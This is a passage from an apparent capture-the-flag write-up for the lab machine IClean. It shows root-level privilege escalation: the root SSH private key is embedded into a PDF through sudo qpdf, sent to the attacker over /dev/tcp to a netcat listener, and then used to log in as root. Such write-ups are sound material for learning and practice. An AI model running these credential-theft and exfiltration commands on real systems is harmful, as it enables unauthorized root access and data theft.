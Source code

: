 Now execute this command to add the attachment /root/.ssh/id_rsa to dummyWithSSHKey.pdf:

```bash
consuela@iclean:/tmp$ sudo qpdf dummy.pdf dummyWithSSHKey.pdf --add-attachment /root/.ssh/id_rsa --
```

I will transfer it to my machine to work better:

**Attacker**:
```bash
❯ nc -lvnp 443 > dummyWithSSHKey.pdf
listening on [any] 443 ...
```

**IClean**:
```bash
consuela@iclean:/tmp$ cat dummyWithSSHKey.pdf > /dev/tcp/10.10.15.95/443 0>&1
```

Viewing it in Firefox, it's possible to obtain the root ssh key:

![id_rsa in pdf exists](/assets/images/IClean/id_rsa-in-pdf-file-exists.png)

Clicking on it just downloads it. Now I can connect as root to IClean and see root.txt!:

```bash
❯ ssh -i id_rsa root@10.10.11.12
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 5.15.0-101-generic x86_64)

<..SNIP..>

root@iclean:~# cat root.txt 
2f****************************9d
```
